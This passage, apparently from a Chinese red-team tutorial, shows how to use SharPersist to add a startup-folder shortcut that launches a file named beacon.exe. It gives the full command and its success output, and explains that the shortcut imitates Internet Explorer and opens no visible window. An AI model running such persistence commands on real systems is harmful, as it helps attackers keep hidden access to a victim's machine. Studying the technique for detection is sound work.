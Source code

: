 SharPersist 创建启动项，-f 是指定文件名。

```plaintext
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t startupfolder -c "C:\Users\123\Desktop\beacon.exe" -f filename -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: File Name: filename


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\123\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\filename.lnk
[*] INFO: SHA256 Hash of LNK file: 03202ADEF2ABA136221A5788A24EC22FB8010A5B802F879C8B12B73DADF17F6D
```

进入 `C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 发现是在当前用户启动目录下创建 IE 快捷方式，运行方式还是最小化，经过测试，常规、最小化、最大化都不会弹出命令行窗口。

![SharPersist 在启动目录创建的快捷方式.png](assets/1708583418-4300f57b829140ec15166f84576d6a63.png)

这个图标还可以在任务管理器中体现。

![SharPersist 快捷方式在任务管理器运行状态.png](assets/1708583418-e9735ce7aaa7b52157523f354ec48c3f.png)
